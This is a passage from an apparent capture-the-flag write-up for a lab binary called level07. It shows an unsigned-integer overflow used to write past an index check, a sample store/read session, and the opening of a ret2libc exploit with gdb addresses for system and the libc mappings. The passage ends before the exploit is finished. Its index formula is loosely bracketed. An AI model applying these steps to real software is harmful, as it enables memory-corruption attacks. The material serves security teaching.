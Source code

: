 ```
4294967299 / 4 = 1073741824
```

Which is the same value we used to get into data[0], since 

```
1073741824 * 4 = 4294967296
```

As said before we divive U_INT by 4, so if we want that value to be equal to 3 after getting multiplied by 4, we need to add 3 * 4 to (U_INT MAX + 1).

The reason is, as said before, an int is 4 byte long, so we must jump 4 by 4.

The final formula is so :

```
(U_INT MAX + 1) + (ValueWeWant * 4) / 4 = index

Example if we want the index for data[10].

4294967296 + (10 * 4) / 4 = 1073741834

Lets test it:

```
Input command: store
 Number: 4242
 Index: 1073741834
 Completed store command successfully
Input command: read 10
 Index: 10
 Number at data[10] is 4242
 Completed read 10 command successfully
Input command:
```

```

Time to build a ret2libc exploit !

```
(gdb) br main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc map
process 1726
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
```